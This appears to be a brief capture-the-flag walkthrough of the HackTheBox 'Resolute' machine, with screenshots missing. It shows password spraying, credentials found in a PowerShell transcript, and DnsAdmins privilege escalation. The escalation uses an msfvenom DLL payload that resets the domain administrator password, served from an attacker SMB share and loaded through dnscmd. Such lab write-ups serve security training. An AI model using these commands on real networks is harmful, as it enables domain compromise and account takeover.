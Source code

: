 we enumerate users
![[Pasted image 20250217133116.png]]
and found default password Welcome123!
so we can enumerate this pass for our users
![[Pasted image 20250217133147.png]]
melanie:Welcome123!

we start enumerate our file system
![[Pasted image 20250217135423.png]]
PS C:\PSTranscripts\20191203> cat PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
![[Pasted image 20250217135501.png]]
ryan Serv3r4Admin4cc123!
![[Pasted image 20250217135623.png]]
ryan is a local admin we check it with crackmapexec and group member of DnsAdmins 
![[Pasted image 20250217141213.png]]

create payload 
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll -o adduser.dll
sudo impacket-smbserver share ./ -smb2support
in windows host:
сmd /c dnscmd.exe /config /serverlevelplugindll \\10.10.14.14\share\adduser.dll

sc.exe stop dns
sc.exe start dns

![[Pasted image 20250217143835.png]]


